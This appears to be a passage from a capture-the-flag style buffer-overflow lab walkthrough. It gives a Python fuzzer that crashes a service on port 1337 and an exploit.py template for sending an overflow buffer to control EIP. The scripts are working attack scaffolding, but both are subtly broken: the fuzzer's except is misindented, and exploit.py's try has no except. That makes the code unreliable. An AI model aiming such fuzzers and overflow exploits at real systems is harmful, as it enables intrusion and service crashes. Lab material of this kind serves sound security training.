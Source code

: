 ```
### Fuzzing
Create a file on your Kali box called fuzzer.py with the following contents:
```python
#!/usr/bin/env python3 

import socket, time, sys 

ip = "MACHINE_IP" 
port = 1337 
timeout = 5 
prefix = "OVERFLOW1 " 

string = prefix + "A" * 100 

while True: 
  try: 
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s: 
      s.settimeout(timeout) 
      s.connect((ip, port)) 
      s.recv(1024) 
      print("Fuzzing with {} bytes".format(len(string) - len(prefix))) 
      s.send(bytes(string, "latin-1")) 
      s.recv(1024) 
    except: 
      print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix))) 
      sys.exit(0) 

  string += 100 * "A" 
  time.sleep(1)
```

Run the fuzzer.py script using python: ```python3 fuzzer.py```

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

### Crash Replication & Controlling EIP
Create another file on your Kali box called exploit.py with the following contents:
```python
#!/usr/bin/env python3 

import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```